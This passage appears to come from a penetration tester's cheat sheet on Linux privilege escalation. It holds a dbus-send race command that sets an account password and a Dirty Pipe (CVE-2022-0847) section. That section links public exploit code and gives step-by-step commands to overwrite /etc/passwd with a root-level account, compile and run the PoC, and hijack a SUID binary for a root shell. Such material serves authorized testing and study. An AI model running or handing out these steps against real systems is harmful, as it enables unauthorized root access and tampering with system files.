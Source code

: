 ```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'HASHED_PWD' string:'Ask the pentester' & sleep 0.005s; kill $!
```
{% endcode %}

## Dirty Pipe (CVE-2022-0847)

[https://www.hackthebox.com/blog/Dirty-Pipe-Explained-CVE-2022-0847](https://www.hackthebox.com/blog/Dirty-Pipe-Explained-CVE-2022-0847)

DirtyPipe is a local privilege escalation vulnerability in the Linux kernel that allows a local attacker to bypass any file permissions, and write arbitrary data to any file under certain conditions.

One of the major limitations of this exploit is that the user must at least have read permission over the file that he/she is targeting to overwrite, because the exploit makes use of the splice() system call. Another limitation of the exploit is that it can only modify after the first byte of the file through the end of the file. It cannot modify the first byte, or extend beyond the original file size.

Dirty Pipe has been fixed in Linux kernel versions 5.16.11, 5.15.25 and 5.10.102

{% code overflow="wrap" fullWidth="true" %}
```bash
https://dirtypipe.cm4all.com/
https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit
https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/blob/main/exploit-2.c
# VERIFY IF VULNERABLE
https://github.com/basharkey/CVE-2022-0847-dirty-pipe-checker

# Take PoC from the website above. The overwritten file will be /etc/passwd and we just need the new account and the offset
# IMPORTANT: BACKUP /ETC/PASSWD BEFORE PROCEEDING, JUST IN CASE
# The offset will be the starting point to overwrite the /etc/passwd so some accounts will be messed up; games account is not relevant so it's a good option
grep -b "games" /etc/passwd
# Offset result will be a number, 189 for example. Then we need the user line which is sth like this:
'USERNAME:HASH:0:0::/root:/bin/bash'
# where hash is the hashed password
openssl passwd -6 --salt mysalt "Hola1234"
# Then we compile the exploit and run it. VERY IMPORTANT: LEAVE IT WITHOUT SINGLE QUOTE AND ADD IT TO THE NEXT LINE AS BELOW
gcc poc.c -o exploit
./exploit /etc/passwd $OFFSET_NUMBER 'USERNAME:HASH:0:0::/root:/bin/bash
> '
# Once we are root, we restore /etc/passwd
cp /tmp/passwd /etc/passwd

# Second exploit -> simpler, it should be run with a single argument specifying a target binary, owned by root and with the SUID bit set, for example:
https://haxx.in/files/dirtypipez.c
./exploit /bin/su
# Do not forget to clean up /tmp/sh as root
```
{% endcode %}
